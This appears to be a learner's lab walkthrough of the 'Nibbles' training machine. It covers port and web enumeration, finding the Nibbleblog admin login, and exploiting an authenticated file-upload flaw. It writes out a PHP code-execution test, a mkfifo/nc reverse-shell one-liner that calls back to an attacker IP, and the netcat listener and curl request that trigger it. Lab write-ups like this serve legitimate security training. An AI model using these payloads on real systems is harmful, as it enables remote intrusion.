# Nibbles - Enumeration

## Nmap - Common flags

- `-p-`: The full port scan that has finished and has not found any additional ports.
- `-Sc`: Nmap script scan. These scripts can be intrusive, so it is always important to understand exactly how the tools work.
- `-oA`: Output all the scan, including XML output, greppable output, and text output that may be useful later on.

### initials Scan

```bash
nmap -sV --open -oA nibbles_initial_scan 10.129.42.190
```

This nmap command performs a service version detection scan on the target IP address. Let me break down each component:

- `nmap` - The network scanning tool itself
- `-sV`- Enables version detection. This probes open ports to determine what service/application is running and attempts to identify the specific version number. For example, it won't just tell you port 80 is open, but that it's running "Apache httpd 2.4.18"
- `--open` - Filters results to show only open ports. This excludes closed and filtered ports from the output, making your results cleaner and more actionable since you're typically only interested in services you can actually interact with
- `-oA nibbles_initial_scan` - Saves the scan results in all three major output formats with the basename "nibbles_initial_scan":

- `.nmap` (normal output - human readable)
- `.xml` (XML format - good for importing into other tools)
- `.gnmap` (greppable format - easy to parse with command-line tools)

`10.129.42.190` - The target IP address being scanned

### Double confirmation of the finding

```bash
nc -nv 10.129.42.190 22
```

Script Scanning:

```bash
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
```

### Q1

Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)

```bash
nmap -sV --open -oA nibbles_initial_scan 10.129.36.172
```



### Answer

```
2.4.18
```

---

# Nibbles - Web Foorprinting

Target: `10.129.41.73`

### Prerequisite

```
whatweb 10.129.41.73
curl http://10.129.41.73
gobuster dir -u http://10.129.41.73/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
curl http://10.129.41.73/nibbleblog/README
curl -s http://10.129.41.73/nibbleblog/content/private/users.xml | xmllint  --format -

```




## Vulnerablity of this website

Gobuster finishes very quickly and confirms the presence of the admin.php page. We can check the README page for interesting information, such as the version number.


So we validate that version 4.0.3 is in use, confirming that this version is likely vulnerable to the Metasploit module (though this could be an old README page). Nothing else interesting pops out at us. Let us check out the admin portal login page.



Now, to use the exploit mentioned above, we will need valid admin credentials. We can try some authorization bypass techniques and common credential pairs manually, such as admin:admin and admin:password, to no avail. There is a reset password function, but we receive an e-mail error. Also, too many login attempts too quickly trigger a lockout with the message Nibbleblog security error - Blacklist protection.



Browsing to `nibbleblog/content` shows some interesting subdirectories public, private, and tmp. Digging around for a while, we find a `users.xml` file which at least seems to confirm the username is indeed admin. It also shows blacklisted IP addresses. We can request this file with cURL and prettify the XML output using xmllint.


Now we have a username `admin`, but no password.

What we have so far:

- A Nibbleblog install potentially vulnerable to an authenticated file upload vulnerability
- An admin portal at `nibbleblog/admin.php`
- Directory listing which confirmed that `admin` is a valid username
- Login brute-forcing protection blacklists our IP address after too many invalid login attempts. This takes login brute-forcing with a tool such as **Hydra** off the table





# Discover the password

### Tools

- <https://github.com/digininja/CeWL>
- Hashcat

But for this case, you can gain a hint from `config.xml` about the password.

```
nibbles
```

Of course, there might be a "better" and "quieter" method to brute force the password.



---

# Nibbles - Initial Foothold

### Rapid 7 report - Nibbleblog File Upload Vulnerability

- Link: <https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/>
- **Description**: Nibbleblog contains a flaw that allows an authenticated remote
attacker to execute arbitrary PHP code. This module was
tested on version 4.0.3.

The Metasploit module in question works for version `4.0.3`. We do not know the exact version of Nibbleblog in use yet, but it is a good bet that it is vulnerable to this. If we look at the source code of the Metasploit module, we can see that the exploit uses user-supplied credentials to authenticate the admin portal at `/admin.php`

### PHP Snippet

Let's try upload PHP code instead of image, the following snippet is for testing code execution.

```php
<?php system('id'); ?>
```


I saved it in a file `test.png` and upload it.


Then I got a bunch of errors after uploading it.


Check the `/Content/plugins/my_image`, the code snippet had been uploaded.


```
curl http://10.129.41.73/nibbleblog/content/private/plugins/my_image/test.png
```

It doesn't worl, it seems the file format isn't correct.


I redo again the steps but name the file `image.php`.


```
curl http://10.129.41.73/nibbleblog/content/private/plugins/my_image/image.php
```

And it works this time. Though I got errors while uploading it, it was successfully uploaded.


# Reverse Shell

I have proved the plugin form allows executable and execution.

Now, let's add reverse shell one liner.

We will add our tun0 VPN IP address in the <ATTACKING IP> placeholder and a port of our choice for <LISTENING PORT> to catch the reverse shell on our netcat listener. See the edited PHP script below.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> 9443 >/tmp/f
```

The completed PHP snippet for this attack:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.234 9443 >/tmp/f"); ?>
```



Set up a netcat listener

```
nc -lvnp 9443
```

`cURL` the image page again or browse to it in Firefox at <http://nibbleblog/content/private/plugins/my_image/image.php> to execute the reverse shell.



```
curl http://10.129.41.73/nibbleblog/content/private/plugins/my_image/image.php
```

Got it!


Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc. This post explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a Python one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.

